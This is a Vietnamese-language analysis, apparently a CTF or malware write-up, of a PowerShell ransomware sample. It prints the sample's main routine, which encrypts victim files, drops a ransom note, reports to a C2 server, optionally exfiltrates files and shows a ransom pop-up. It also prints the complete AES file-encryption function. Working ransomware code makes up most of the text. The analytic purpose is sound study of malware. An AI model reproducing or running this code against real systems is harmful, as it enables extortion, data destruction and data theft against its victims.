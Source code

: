 ```python=
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
                                           
```

Tôi đã cop ra [docs](https://docs.google.com/document/d/1ONw-2dEYTZqAEQ83a8qikqg82mWUqinV-8d-8GkBg3A/edit) và hightlight một số hàm cho dễ nhìn

### Phân tích

Đây là một đoạn code PowerShell để thực hiện mã hóa tài liệu của đối tượng mục tiêu và đòi tiền chuộc (như mô tả).

Một số hàm quan trọng chúng ta cần phân tích như:
1. `function Invoke-AESEncryption` mã hóa theo `thuật toán AES`
2. `function R64Encoder` mã hóa đặc biệt của `base64`
3. `function SendResults` gửi đi `data` và `logs` thông tin của tiến trình hoạt động.
4. `function EncryptFiles` mã hóa các file mục tiêu.
5. `function ExfiltrateFiles` mã hóa và gửi dữ liệu đi.
6. Và hàm `main` ở cuối.

Chúng ta sẽ đi phân tích từng hàm

1. `function Invoke-AESEncryption` mã hóa theo `thuật toán AES`

```python=
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
```